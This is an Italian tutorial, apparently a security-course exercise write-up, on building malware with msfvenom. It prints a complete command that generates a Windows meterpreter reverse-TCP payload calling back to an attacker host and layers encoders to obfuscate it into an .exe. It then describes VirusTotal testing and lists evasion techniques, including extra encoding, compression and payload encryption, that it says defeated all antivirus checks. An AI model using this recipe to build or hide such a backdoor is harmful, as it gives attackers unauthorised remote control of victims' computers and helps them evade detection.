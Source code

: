 Che cos'è un Malware?
Un Malware, abbreviazione di "Software Maligno", è un programma creato con l'intento di danneggiare, infiltrarsi o ottenere il controllo di un sistema informatico senza il consenso dell'utente. A differenza dei software legittimi, il malware ha uno scopo dannoso

Come Creare un Malware con Msfvenom
L’esercizio consiste nel creare un malware utilizzando msfvenom, uno strumento del framework di sicurezza Metasploit. Ecco un esempio di comando usato:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=5959 -a x86 --platform windows -e x86/shikata_ga_nai -i 100 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 200 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 138 -o esempio.exe
uesto comando è diviso in tre fasi:
Generazione del Payload: msfvenom crea un payload meterpreter che permette una connessione inversa al computer dell'attaccante.
Offuscamento del Codice: si utilizzano encoder diversi (shikata_ga_nai e countdown) per rendere il malware più difficile da identificare, con diverse iterazioni per ciascun encoder.
Creazione del File Finale: il risultato è un file .exe offuscato che viene salvato nel sistema

Cos'è MSFvenom?
MSFvenom è uno strumento integrato nel Metasploit Framework, utilizzato per creare payload adatti a diversi sistemi operativi. Ha la capacità di:
Generare payload personalizzati.
Utilizzare encoder per modificare il payload e sfuggire ai software di rilevamento.
Supportare più piattaforme e formati di file (exe, elf, raw).
Creare backdoor che consentono l’accesso remoto non autorizzato.
Test e Ottimizzazioni
Dopo la generazione, il malware è stato analizzato con VirusTotal, una piattaforma che verifica la presenza di minacce con oltre 70 motori antivirus. I risultati iniziali hanno mostrato che il malware veniva rilevato da 10 antivirus. Per renderlo più difficile da individuare, sono stati applicati diversi miglioramenti:

Incremento delle iterazioni di codifica.
Utilizzo di encoder diversi.
Compressione del payload per nascondere meglio il contenuto dannoso.
Criptazione del payload, in modo che il codice dannoso venga decifrato solo al momento dell'esecuzione.
Dopo queste modifiche, il malware è riuscito a sfuggire a tutti i controlli di sicurezza durante i test
